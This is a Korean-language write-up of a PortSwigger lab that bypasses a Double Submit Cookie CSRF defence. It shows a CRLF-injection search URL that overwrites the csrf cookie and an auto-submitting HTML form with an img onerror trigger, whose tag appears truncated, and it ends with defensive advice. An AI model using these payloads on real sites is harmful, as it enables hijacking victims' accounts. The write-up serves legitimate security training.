


+++
date = '2026-06-24T12:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - CSRF where token is duplicated in cookie'
summary = "쿠키와 파라미터의 값 일치만 확인하는 Double Submit 방식을 CRLF 주입으로 양쪽 값을 모두 공격자가 정해 우회하는 풀이"
toc = true
tags = ["CSRF", "CSRF Token", "Double Submit", "Cookie Injection", "CRLF Injection", "PortSwigger", "Practitioner"]
url = '/write-up/portswigger/csrf/write-up-portswigger---csrf-where-token-is-duplicated-in-cookie/'
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)

> 

이메일 변경 기능에 CSRF 취약점이 존재한다. 애플리케이션이 안전하지 않은 중복 제출(Double Submit) 방식으로 CSRF를 방어한다. CSRF 공격으로 피해자의 이메일 주소를 변경하면 문제가 해결된다. 실습 계정은 `wiener:peter`다.

### CSRF 진단

정상적으로 이메일을 변경하고 요청을 확인한다.

```http
POST /my-account/change-email HTTP/2
Host: <lab-id>.web-security-academy.net
Cookie: csrf=<csrf-token>; session=<session>
Content-Type: application/x-www-form-urlencoded

email=csrf%40csrf.com&csrf=<csrf-token>
```

같은 값이 쿠키와 본문 파라미터 양쪽에 담겨 전송된다. Double Submit Cookie 패턴으로, 서버가 토큰을 별도로 보관하지 않고 두 값이 같은지만 확인하는 방식이다.

실제로 쿠키와 파라미터의 값을 **둘 다 동일한 임의의 문자열로** 바꿔 보내면 이메일이 정상적으로 변경된다. 서버는 값의 출처나 발급 이력을 확인하지 않고 일치 여부만 본다.

파라미터 값은 공격자가 폼에 직접 넣으면 되므로, 남은 문제는 쿠키를 원하는 값으로 설정하는 것이다. 검색 기능이 검색어를 응답 쿠키에 그대로 반영한다.

```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=csrf; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
```

검색어에 CRLF를 넣어 `csrf` 쿠키를 덮어쓰는 `Set-Cookie` 헤더를 추가한다.

```text
/?search=csrf%3B%0D%0ASet-Cookie%3A+csrf%3Dcsrf%3B+SameSite%3DNone
```

```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=csrf;
Set-Cookie: csrf=csrf; SameSite=None; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
```

이후 페이지를 열어보면 폼의 히든 필드도 덮어쓴 쿠키 값을 그대로 따라간다.

```html
<input required type="hidden" name="csrf" value="csrf">
```

서버가 토큰을 보관하지 않고 쿠키 값을 그대로 폼에 내려주고 있다는 뜻으로, 값 자체에 아무 의미가 없음을 확인할 수 있다.

---

## 익스플로잇

쿠키를 원하는 값으로 덮어쓰고, 같은 값을 파라미터에 넣은 폼을 제출한다.

```html
<form id="autosubmit" action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="POST">
    <input name="email" value="csrf2@csrf.com" />
    <input name="csrf" value="csrf" />
</form>
.web-security-academy.net/?search=csrf%3B%0D%0ASet-Cookie%3A+csrf%3Dcsrf%3B+SameSite%3DNone" onerror="document.getElementById('autosubmit').submit()"/>
```

`img` 요청으로 쿠키를 심고 `onerror` 시점에 폼을 제출한다. 쿠키와 파라미터가 모두 `csrf`로 일치하므로 검증을 통과한다.

이 페이로드를 피해자에게 전달하면 문제가 해결된다.



---

## 정리

Double Submit Cookie는 서버가 토큰 상태를 저장하지 않아도 되는 점 때문에 널리 쓰이는 패턴이다. 이 방식의 안전성은 **공격자가 피해자 브라우저의 쿠키를 설정할 수 없다**는 전제 하나에 전적으로 의존한다. 전제가 깨지는 순간 공격자는 비교되는 두 값을 모두 스스로 정할 수 있게 되고, 검증은 자기 자신과의 비교로 전락한다.

문제는 이 전제가 생각보다 쉽게 무너진다는 점이다. 쿠키는 출처(origin)가 아니라 사이트(site) 단위로 공유되므로, 서브도메인 하나에 헤더 주입이나 XSS가 있으면 상위 도메인의 쿠키를 설정할 수 있다. 이 랩처럼 검색어가 `Set-Cookie`에 반영되는 사소한 결함으로도 충분하다. [비세션 쿠키 결합 랩](/write-up/portswigger/csrf/write-up-portswigger---csrf-where-token-is-tied-to-non-session-cookie/)과 공격 발판이 동일한 것도 이 때문이다.

두 랩을 나란히 놓으면 차이가 분명해진다. 앞의 랩은 토큰을 서버가 보관하되 결합 대상을 잘못 골랐고, 이 랩은 아예 보관하지 않는다. 후자가 더 취약한 이유는 공격자가 유효한 토큰을 미리 확보할 필요조차 없기 때문이다.

방어는 토큰을 사용자 세션에 저장하고 세션 값과 대조하는 것이다. 상태 저장이 어려운 환경이라면 최소한 토큰을 세션 식별자와 서버 비밀키로 서명해 다른 세션의 값이 재사용되지 않도록 해야 하며, 쿠키를 설정할 수 있는 모든 경로(헤더 주입, 서브도메인 XSS)를 함께 통제해야 한다.
